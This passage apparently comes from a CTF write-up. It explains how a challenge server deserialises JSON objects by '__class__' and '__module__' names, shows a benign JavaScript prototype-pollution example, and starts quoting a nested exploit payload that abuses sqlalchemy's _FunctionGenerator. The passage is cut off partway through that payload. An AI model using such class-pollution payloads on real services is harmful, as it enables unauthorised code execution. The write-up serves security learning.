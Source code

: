 The code is also not that difficult to read. The client creates an object of a class defined in the script (either `MaterialRequest` or `RecipeCreateRequest`), serializes this to a JSON string using the `object_to_dict` method and sends it to the server using a stream. The client than waits for a response of the server, which is deserializes from a JSON string using the `dict_to_object` method to a object of a class also defined in the script (either `MaterialRequestReply` or `RecipeCreateReply`). The serializing of the object results in the following message send to the server:

```json
{
  "__class__": "RecipeCreateRequest",
  "__module__": "__main__",
  "materials": "sparkling powder,blue dye"
}
```

Although the client enforces us in the structure of the message sent, the client can be modified to send whatever message wanted. I also found out that the server doesn't keep a state, it just processes the request based on the structure. I confirmed this by setting a new connection and send the above message without a `MaterialRequest` first.

Two things in this client were interesting to me. The first was the import of sqlalchemy which was commented out. It could be a hint that sqlalchemy is used, possibly by the server. The second thing that catched my eye was the way the serializing and deserializing was done. Instead of processing just a dict with data, this client processes objects of an user defined class. From other challenges I remember that in JavaScript [prototype poluttion](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications) exists. Here extra, unexpected properties are added to the serialized to the sent message. When the server deserializes this message, the properties can override methods of the deserialized object, resulting in unexpected and unwanted behavior. For example the following code 'polutes' the `toString` property:

```javascript
let customer = { name: "person", address: "here" };
console.log(customer.toString());
//output: "[object Object]"

customer.__proto__.toString = () => {
  alert("polluted");
};
console.log(customer.toString());
// alert box pops up: "polluted"
```

Since the Python client deserializes the message into an object of a class, the methods of the object could also be overridden. I tried this during the CTF, but I didn't find a way to accomplish this during the CTF. So I waited for the CTF to end and read the write-ups, which proved I was on the right path, but the way the exploit works really blew my mind.

## The exploits

After the CTF ended I saw two write-ups, which showed their exploit, but I still didn't fully understand how they worked. The [first write-up](https://colab.research.google.com/drive/1Eg7dwu6bProy4Pwwgqg0UG0bj3NjGLOD) used the following payload:

```json
{
  "__class__": "RecipeCreateRequest",
  "__module__": "__main__",
  "materials": {
    "__class__": "RecipeCreateRequest",
    "__module__": "__main__",
    "split": {
      "__class__": "_FunctionGenerator",
      "__module__": "sqlalchemy.sql.functions",
      "opts": {
        "__class__": "RecipeCreateRequest",
        "__module__": "__main__",
        "copy": {
```